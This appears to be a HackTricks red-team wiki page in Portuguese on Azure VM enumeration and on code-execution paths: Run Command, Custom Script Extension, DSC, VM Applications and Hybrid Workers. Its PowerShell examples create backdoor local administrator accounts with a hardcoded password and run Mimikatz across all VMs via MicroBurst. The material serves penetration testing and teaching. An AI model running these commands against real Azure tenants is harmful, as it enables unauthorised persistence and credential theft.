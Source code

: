 # Az - Máquinas Virtuais & Rede

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações básicas

[Dos documentos:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) As máquinas virtuais do Azure são um dos vários tipos de [recursos de computação escaláveis sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações sobre a Rede do Azure

As redes do Azure contêm **diferentes entidades e maneiras de configurá-las.** Você pode encontrar uma breve **descrição,** **exemplos** e comandos de **enumeração** das diferentes entidades de rede do Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferece uma solução segura e totalmente gerenciada de acesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) via SSL através do portal do Azure. Está integrado dentro de uma Rede Virtual do Azure, permitindo conectividade RDP e SSH para VMs usando IPs privados, evitando a necessidade de IPs públicos. Isso o torna uma alternativa mais segura e conveniente em comparação com métodos tradicionais que envolvem atribuições de IPs públicos e configurações de regras NSG para acesso a VMs. Desenvolvedores e pessoal de TI podem acessar VMs de forma segura a partir do portal do Azure usando seus navegadores da web, simplificando o processo para ambientes de desenvolvimento e teste.

Para listar todos os Hosts do Azure Bastion em sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login AAD na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o email** com o azurecorp ao tentar fazer login) você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguir essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para isso: `Virtual Machine Administrator Login` ou `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquinas virtuais (VM) do Azure são **pequenos aplicativos** que fornecem configuração e automação **tarefas** pós-implantação em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tiver acesso para escrevê-lo, pode executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) é uma ferramenta PowerShell semelhante ao Ansible, usada para configurar um host através de código. O DSC integra-se ao Azure, permitindo o upload de arquivos de configuração específicos. Esses arquivos devem seguir uma sintaxe rigorosa. Notavelmente, a extensão DSC no Azure pode executar comandos de arquivos que atendem a certos critérios de formatação, mesmo que a sintaxe não esteja correta para os padrões do DSC, como mostrado na figura fornecida.

A execução desses comandos é facilitada pela função [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) no Az PowerShell. Os requisitos incluem um arquivo **.PS1** com uma função definida e o arquivo deve ser compactado em um arquivo **.zip**. Embora a sintaxe possa não ser precisa para o DSC, o código ainda será executado. No entanto, a extensão marcará o status de execução como "falha", e nenhuma saída do comando será visível devido ao status ser sobrescrito pela mensagem de falha.

### VM Application Definitions

As Definições de Aplicativos de VM permitem a implantação repetível de aplicativos versionados em uma VM do Azure. Este recurso suporta a implantação e atualização de aplicativos em VMs. Para configurar isso, várias etapas são necessárias, envolvendo comandos como **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

A execução de aplicativos ou comandos através deste método envolve a **"VMAppExtension"**, que é instalada automaticamente quando um aplicativo é aplicado a uma VM. A extensão recupera o arquivo do URI especificado e o nomeia exatamente como o aplicativo, sem uma extensão. Para executar o arquivo corretamente, o campo "ManageActions" na chamada da API REST deve ser configurado para renomear o arquivo com a extensão apropriada. A configuração deste método, uma vez concluída, se parecerá com a estrutura mostrada na figura fornecida.

No entanto, esse método de execução é relativamente lento, levando cerca de 3-4 minutos para executar um aplicativo ou comando. Os arquivos relacionados a esse processo são armazenados em diretórios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para a cópia do aplicativo e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para o status de execução).

Ambas as técnicas fornecem maneiras únicas de executar comandos e implantar aplicativos em ambientes Azure, cada uma com seu próprio conjunto de requisitos, etapas e considerações.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) são um recurso no Azure que permite que Runbooks, configurados em uma Conta de Automação, sejam executados em uma Máquina Virtual (VM) do Azure que faz parte do HWG designado. Essa execução é facilitada por uma extensão instalada na VM, que implanta o código do Runbook na VM. Um aspecto significativo desse processo é que as credenciais reais não são um fator na execução, pois o código é executado com privilégios elevados, especificamente como **SYSTEM** ou root, como ilustrado na figura fornecida.

Um detalhe crucial para aqueles que utilizam VMs com Windows 10 é a necessidade de especificar a versão do PowerShell para o Runbook. Deve ser configurado para ser executado como PowerShell Versão 5.1 em vez de 7.1. Esse requisito decorre do fato de que o PowerShell 7.1 não está instalado por padrão nessas VMs, levando a uma falha na execução do script se a versão 7.1 for especificada.

Esse recurso do Azure oferece um método robusto para automatizar e gerenciar tarefas em ambientes híbridos, permitindo a gestão e execução centralizadas de tarefas em VMs do Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
